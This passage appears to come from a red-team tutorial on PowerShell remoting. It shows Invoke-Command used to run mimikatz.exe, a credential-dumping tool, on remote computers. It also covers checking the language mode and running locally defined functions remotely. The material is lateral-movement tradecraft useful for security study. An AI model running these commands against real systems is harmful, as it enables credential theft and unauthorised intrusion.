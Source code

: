 ```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -ComputerName <computer-name> -ConfigurationName <fill-if-required> -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
Invoke-Command -ComputerName <computer-name> -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
Invoke-Command -ComputerName <computer-name> -ScriptBlock{"C:\temp\mimikatz.exe"}
```

### <span style="color:#F1C232">7. File execution using FilePath</span>

```powershell
Invoke-Command -computername <computer-name> -FilePath "C:\temp\mimikatz.exe"
```

### <span style="color:#F1C232">8. Language Mode</span>

```powershell
Invoke-Command -computername <computer-name> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}
```

> If the value of the LanguageMode is **Constrained**, then it will only allow built-in cmdlets execution
{: .prompt-tip }
## <span style="color:lightgreen">Execute locally loaded function on the remote machines</span>

Example : **Hello.ps1**

```powershell
function hello
{
Write-Output "Hello from the function"
}
```

### <span style="color:#F1C232">1. Now we can load the function on our machine</span>

```powershell
. .\Hello.ps1
```

### <span style="color:#F1C232">2. Now we can execute the locally loaded functions </span>

```powershell
Invoke-Command -ScriptBlock ${function:hello} -ComputerName <computer-name>
```

### <span style="color:#F1C232">3. In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way</span>

